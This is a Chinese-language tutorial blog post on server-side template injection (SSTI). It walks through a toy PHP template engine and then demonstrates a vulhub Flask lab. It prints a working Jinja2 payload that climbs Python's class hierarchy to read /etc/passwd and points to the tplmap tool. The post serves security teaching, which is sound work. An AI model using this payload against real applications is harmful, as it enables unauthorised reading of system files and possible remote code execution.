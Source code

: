 ```yaml
---

layout: post
title:  "SSTI模板注入"
categories: [网络安全CyberSecurity]
tags: [SSTI]

---
```


# 模板注入SSTI简介 

##  何为模板引擎(SST)  

​    百度百科：模板引擎（这里特指用于Web开发的模板引擎）是为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，用于网站的模板引擎就会生成一个标准的HTML文档。  
​    个人理解就是：一个html页面中没有实际内容，但是有变量，访问这个页面时需要将这个变量转换成预期的内容，这时候就需要用到模板引擎。php(或者其他脚本语言)代码通过访问模板引擎，模板引擎通过正则匹配产生一个新的缓存的html页面，从而实现php和html代码的分离。
从网上找了个小例子帮助我们更好的理解SST的作用，大波code来袭：  

### tpl.func.php

```
<?php
    
    //两个参数 1，html 模板； 2，需要修改的参数
    function display($tplFile, $tplVars = null)
    {
        $tplFilePath = rtrim(TPL_PATH,'/') . '/' . $tplFile;
        if (!file_exists($tplFilePath)) {
            exit('模版文件不存在');
        }
        $html = compile($tplFilePath);
        $cacheFileName = parsePath($tplFile);
        if (!check_cache_dir(TPL_CACHE)) {
            exit('缓存目录不可写');
        }
        if (!file_put_contents($cacheFileName, $html)) {
            exit('缓存文件写入失败');
        }
        if (is_array($tplVars)) {
            extract($tplVars);
            include $cacheFileName;
        }
    }
    function check_cache_dir($path)
    {
        if(!file_exists($path) || !is_dir($path)) {
            return mkdir($path,0755,true);
        }
        if(!is_writeable($path) || !is_readable($path)) {
            return chmod($path,0755);
        }
        return true;
    }
    function parsePath($tplFile)
    {
        $path = rtrim(TPL_CACHE,'/').'/'.str_replace('.','_',$tplFile).'.php';
        return $path;
    }
    function compile($path)
    {
        $keys = [
        '{if %%}'              =>    '<?php if(\1): ?>',
        '{else}'               =>    '<?php else : ?>',
        '{else if %%}'         =>    '<?php elseif(\1) : ?>',
        '{elseif %%}'          =>    '<?php elseif(\1) : ?>',
        '{/if}'                =>    '<?php endif;?>',
        '{$%%}'                =>    '<?=$\1;?>',
        '{foreach %%} '        =>    '<?php foreach(\1) :?>',
        '{/foreach}'           =>    '<?php endforeach;?>',
        '{for %%}'             =>    '<?php for(\1):?>',
        '{/for}'               =>    '<?php endfor;?>',
        '{while %%}'           =>    '<?php while(\1):?>',
        '{/while}'             =>    '<?php endwhile;?>',
        '{continue}'           =>    '<?php continue;?>',
        '{break}'              =>    '<?php break;?>',
        '{$%% = $%%}'          =>    '<?php $\1 = $\2;?>',
        '{$%%++}'              =>    '<?php $\1++;?>',
        '{$%%--}'              =>    '<?php $\1--;?>',
        '{comment}'            =>    '<?php /* ',
        '{/comment}'           =>    '*/?>',
        '{/*}'                 =>    '<?php /* ',
        '{*/}'                 =>    '*?>',
        '{section}'            =>    '<?php ',
        '{/section}'           =>    '?>',
        '{include %%}'         =>    '<?php include \1;?>',
        ];
    
        $file = file_get_contents($path);
        foreach ($keys as $key => $val) {
            $pattern = '#'. str_replace('%%', '(.+)', preg_quote($key,'#')) .'#imsU';
            $replace = $val;
            if (stripos($pattern,'include')) {
                $file = preg_replace_callback($pattern, 'parseInclude', $file);
            } 
            else{
                $file = preg_replace($pattern, $replace, $file);
            }
        }
        return $file;
    }
    
    function parseInclude($data)
    {
        $path = str_replace(array('\'','"'),'',$data[1]);
        //data[1]就是-------footer.html
        $cacheFileName = parsePath($path);
        display($path);
        return '<?php include "'.$cacheFileName.'";?>';
    }
```



### config.php 



```
<?php
    define('TPL_CACHE','./cache/');
    define('TPL_PATH','./views/');
#### test.php   
    <?php
    include 'config.php';
    include 'tpl.func.php';
    
    $title = '圈子社区';
    $content = '圈子社区！圈子社区！';
    
    display('moban.html',compact('title','content','footercontent'));
```



### moban.html 



```
    <html>
    <head>
    <title>{$title}</title>
    </head>
    <body>
        {$content}
    <br />
    <hr />
    </body>
    </html>
```



![img](https://img2018.cnblogs.com/blog/1228793/201904/1228793-20190418041501879-62259431.png)

 

## 为什么要模板引擎  

　　如果在一个页面中php代码与html代码混合在一起，在很多时候都会造成不便，用模板引擎可以让php代码和html代码进行分离。

## 为什么SST是危险的？  

　　还是道哥的那句话，安全的本质是信任。SST信任了用户的输入，并且执行这些内容，包括执行本机函数。就像eval函数对传入的内容未加任何过滤一样。因此模板注入(SSTI)很容易导致远程代码执行（RCE）、信息泄露等漏洞。

# 实例演示  

本来准备找CTF题的，但是一直没找到，如果有师傅找到源码，望分享！  
这里就用vuhub的ssti测试一下  
访问页面是hello guest

 ![img](https://img2018.cnblogs.com/blog/1228793/201904/1228793-20190418041647726-588866920.png)

 

因为看过app.py的源码，所以直接在后面加参数?name=123,显示hello 123

![img](https://img2018.cnblogs.com/blog/1228793/201904/1228793-20190418041715724-2113643141.png)

 

说明这里的name我们是被信任的（当它什么都没过滤），猜测存在ssti。  
接着再输入一个表达式{{2*3}}

![img](https://img2018.cnblogs.com/blog/1228793/201904/1228793-20190418041735746-1200033321.png)

 

显示hello 6,验证了存在ssti。   
payload  
python3 ：读取文件 

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/etc/passwd', 'r').read() }}{% endif %}{% endfor %}
```

 

![img](https://img2018.cnblogs.com/blog/1228793/201904/1228793-20190418041806226-1425565022.png)

 

也可以用工具tplmap，挺好用  
https://github.com/epinna/tplmap  

 

# 如何防御SSTI？  


1.尽可能加载静态模板文件。

2.不要允许用户控制此类文件或其内容的路径。



# 参考

[https://xi4or0uji.github.io/2019/01/17/2019-1-15-flask%E4%B9%8Bssti%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/](https://xi4or0uji.github.io/2019/01/17/2019-1-15-flask%E4%B9%8Bssti%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/ )  
[https://blog.csdn.net/qq_40657585/article/details/83657220](https://blog.csdn.net/qq_40657585/article/details/83657220 ) 